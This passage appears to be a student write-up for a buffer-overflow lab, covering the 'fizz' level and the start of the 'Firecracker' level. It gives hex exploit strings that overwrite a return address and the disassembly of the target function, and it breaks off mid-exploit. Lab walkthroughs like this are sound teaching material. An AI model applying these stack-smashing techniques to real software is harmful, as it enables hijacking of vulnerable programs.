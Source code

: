 ```
In fizz, move eax to ecx and do some operation on ecx. After these operation, 0x77767574 change to 0x98a8300. Changed value depends on your cookie and input string. You can easily check the exact value using GDB, doing step by step instruction and watching registers. so we replace "78 79 80 81" to "00 83 8a 09". Then, we can pass the jne instruction at 0x8045c5d.
```
level1/fizz.txt
30 31 32 33
34 35 36 37
38 39 40 41
42 43 44 45
46 47 48 49
50 51 52 53
54 55 56 57
58 59 60 61
62 63 64 65
66 67 68 69
42 8c 04 08
70 71 72 73
74 75 76 77
00 83 8a 09
```

## level 2: Firecracker

* bang address: 0x08048cb1
```
08048cb1 <bang>:
 8048cb1:	55                   	push   %ebp
 8048cb2:	89 e5                	mov    %esp,%ebp
 8048cb4:	83 ec 18             	sub    $0x18,%esp
 8048cb7:	a1 20 d1 04 08       	mov    0x804d120,%eax
 8048cbc:	8b 15 28 d1 04 08    	mov    0x804d128,%edx
 8048cc2:	81 e2 0f 0f 00 00    	and    $0xf0f,%edx
 8048cc8:	39 d0                	cmp    %edx,%eax
 8048cca:	75 26                	jne    8048cf2 <bang+0x41>
 8048ccc:	89 44 24 08          	mov    %eax,0x8(%esp)
 8048cd0:	c7 44 24 04 14 a2 04 	movl   $0x804a214,0x4(%esp)
 8048cd7:	08 
 8048cd8:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048cdf:	e8 7c fc ff ff       	call   8048960 <__printf_chk@plt>
 8048ce4:	c7 04 24 02 00 00 00 	movl   $0x2,(%esp)
 8048ceb:	e8 f4 05 00 00       	call   80492e4 <validate>
 8048cf0:	eb 18                	jmp    8048d0a <bang+0x59>
 8048cf2:	89 44 24 08          	mov    %eax,0x8(%esp)
 8048cf6:	c7 44 24 04 7a a3 04 	movl   $0x804a37a,0x4(%esp)
 8048cfd:	08 
 8048cfe:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048d05:	e8 56 fc ff ff       	call   8048960 <__printf_chk@plt>
 8048d0a:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048d11:	e8 aa fb ff ff       	call   80488c0 <exit@plt>
```
First, just exploit the return address to bang, like level 0 or 1.
```
./level2/fire-test1.txt
30 31 32 33
34 35 36 37
38 39 40 41
42 43 44 45
46 47 48 49
50 51 52 53
54 55 56 57
58 59 60 61
62 63 64 65
66 67 68 69